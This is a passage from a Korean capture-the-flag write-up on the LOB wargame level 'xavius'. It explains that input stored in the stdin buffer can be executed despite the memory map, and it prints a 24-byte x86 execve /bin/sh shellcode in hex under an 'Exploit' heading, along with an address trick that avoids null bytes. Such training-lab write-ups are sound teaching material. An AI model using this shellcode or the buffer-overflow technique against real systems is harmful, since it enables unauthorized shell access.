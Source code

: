 입력한 값이 들어 있음을 알 수 있다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/19.xavius/image-20180802131232591.png" width="700px">



실제 메모리 맵을 살펴보면, 해당 영역은 실행 권한이 존재하지 않는다. 하지만 maps에 대한 정보는 100% 정확하지 않다는 얘기를 들어서 시도해 보았다.

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/19.xavius/image-20180802131641059.png" width="700px">



공격에 성공 하는것으로 보아 **maps에 대한 정보는 정확하지 않다는 것이 증명되었다.**

> stdin시작주소에 1을 더한 이유는 \x00 을 없애기 위함이다.

-----


